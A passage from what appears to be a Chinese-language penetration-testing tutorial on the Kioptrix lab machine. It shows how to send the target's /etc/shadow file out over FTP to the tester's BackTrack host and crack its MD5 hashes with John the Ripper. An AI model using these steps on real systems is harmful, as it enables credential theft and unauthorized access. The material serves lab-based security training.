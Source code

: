 +   您应该看到 Kioptrix /etc 目录的目录列表。

```
ftp 192.168.75.12 

```

+   在 BackTrack 机器上的 FTP 服务器上输入我们创建的用户名（ftplogin）。

```
Password: password 

```

+   输入 FTP 服务器帐户的密码。等待片刻，然后输入：

```
put shadow 

```

+   等待片刻，然后输入：

```
ls
exit

```

+   您应该看到目标 FTP 站点的目录列表。

1.  *CTRL + Q*将使您退出 Kioptrix 机器。

### 注意

您也可以简单地执行`cat shadow`并使用鼠标复制屏幕输出。然而，了解如何从目标机器中提取文件非常重要，特别是如果文件非常大的话。

现在我们在 BackTrack 机器上有了 shadow 文件，让我们看看我们能做些什么。

```
# cd /pentest/passwords/john 

```

一旦我们浏览到正确的目录，我们就可以针对我们的 Kioptrix shadow 文件启动 john：

```
# john /var/public/shadow 

```

John 将开始尝试对 MD5 密码进行暴力破解。

```
Loaded 3 password hashes with 3 different salts (FreeBSD MD5 [32/64 X2])

```

### 注意

如果您幸运或极其耐心，您将获得目标机器的未加密密码。根据密码复杂性和系统速度的组合，此步骤可能需要从几分钟到几周不等的时间。有第三方服务可用于破解密码，但在使用这些服务时必须在您的规则中明确允许，因为您将失去对发送到第三方的任何数据的控制。
